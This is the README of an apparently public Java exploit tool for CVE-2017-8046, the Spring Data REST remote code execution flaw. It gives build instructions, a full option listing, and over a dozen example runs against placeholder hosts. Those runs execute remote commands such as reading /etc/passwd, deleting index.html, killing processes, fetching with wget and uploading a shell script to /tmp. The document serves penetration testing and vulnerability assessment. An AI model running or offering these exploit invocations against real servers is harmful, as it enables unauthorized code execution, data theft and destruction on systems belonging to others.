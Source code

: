 # spring-break_cve-2017-8046

This is a Java program that exploits **Spring Break** vulnerability (**CVE-2017-8046**).

This software is written to have as less external dependencies as possible.

## DISCLAIMER

**This tool is intended for security engineers and appsec guys for security assessments. Please use this tool responsibly. I do not take responsibility for the way in which any one uses this application. I am NOT responsible for any damages caused or any crimes committed by using this tool.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.
* **Vendor link**: [https://pivotal.io/security/cve-2017-8046](https://pivotal.io/security/cve-2017-8046)

## How to generate an executable JAR

Here some steps to follow in order to generate an executable JAR, with all dependencies into it, that can be used to launch the exploit.

### with Maven

Following Maven command can be launched:

```
mvn clean compile package
```

### with Eclipse

Following steps can be done:
1. solve all external dependencies/libraries;
1. right click on the Eclipse project and go to `Run As > Run Configurations`;
1. right click on `Java Application` then on `New`;
1. choose a name and set the main class to `com.afs.exploit.spring.SpringBreakCve20178046`;
1. click on `Apply` button;
1. close the window and go back to the main Eclipse window;
1. right click on the Eclipse project and click on `Export...`;
1. find and choose `Runnable JAR file` (under `Java` branch);
1. in the following window:
   1. choose the correct `Launch configuration` created before;
   1. choose an `Export destination`;
   1. choose the option `Extract required libraries into generated JAR`;
   1. click on `Finish` button.

## Help

```
Usage:
   java -jar spring-break_cve-2017-8046.jar [options]
Description:
   Exploiting 'Spring Break' Remote Code Execution (CVE-2017-8046).
Options:
   -h, --help
      Prints this help and exits.
   -u, --url [target_URL]
      The target URL where the exploit will be performed.
      You have to choose an existent resource.
   -cmd, --command [command_to_execute]
      The command that will be executed on the remote machine.
   -U, --upload [file_to_upload]
      File to upload to the remote machine. Will be uploaded to the current working
      directory of the java process. Warning: this will only succeed on a server running
      JRE-1.7 or later.
   --remote-upload-directory [/some/existing/path/]
      Optional. Server will attempt to write the uploaded file to this directory on the
      filesystem. Specified directory must exist and be writeable.
   --cookies [cookies]
      Optional. Cookies passed into the request, e.g. authentication cookies.
   -H, --header [custom_header]
      Optional. Custom header passed into the request, e.g. authorization header.
   -k
      Skip SSL validation
   --clean
      Optional. Removes error messages in output due to the usage of the
      exploit. It could hide error messages if the request fails for other reasons.
   --error-stream
      Optional. In case of errors the command will fail and the error stream will
      not be returned. This option can be used to relaunch the remote command
      returning the error stream.
   -v, --verbose
      Optional. Increase verbosity.
```


## Examples

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln01.foo.com/api/v1/entity/123" --command ipconfig
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln02.foo.com/api/v2/entity/42" --command ipconfig --cookies "JSESSIONID=qwerty0123456789"
```

```
java -jar spring-break_cve-2017-8046.jar -v --url "https://vuln02.foo.com/api/v2/entity/42" --upload file.sh --remote-upload-directory /tmp
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln03.foo.com/asd/api/v1/entity/1" --command dir --cookies "JSESSIONID=qwerty0123456789;foo=bar"
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln04.foo.com/asd/api/v1/entity/1" --command "dir C:\Windows" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln05.foo.com/asd/api/v1/entity/1" --command "copy /b NUL ..\..\pwned.txt" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln06.foo.com/asd/api/v1/entity/1" --command "ping -c 3 www.google.it" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln07.foo.com/asd/api/v1/entity/1" --command "ps aux" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln08.foo.com/asd/api/v1/entity/1" --command "uname -a" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln09.foo.com/asd/api/v1/entity/1" --command "ls -l" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln10.foo.com/asd/api/v1/entity/1" --command "wget https://www.google.com" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln11.foo.com/asd/api/v1/entity/1" --command "rm index.html" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln12.foo.com/asd/api/v1/entity/1" --command "cat /etc/passwd" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln13.foo.com/asd/api/v1/entity/1" --command "kill -9 5638" --clean
```

Please note that the referenced resource/URL must exist!

## Vulnerable application

A vulnerable application can be found [here](https://github.com/m3ssap0/SpringBreakVulnerableApp).

## Authors

* **Antonio Francesco Sardella** - *main implementation* - [m3ssap0](https://github.com/m3ssap0)
* **Yassine Tioual** - *HTTP header enhancement* - [nisay759](https://github.com/nisay759)
* **Robin Wagenaar** - *for the suggestion to use patch operation 'remove' instead of 'replace' and for the file upload functionality* - [RobinWagenaar](https://github.com/RobinWagenaar)

## License

This project is licensed under the Apache License Version 2.0 - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability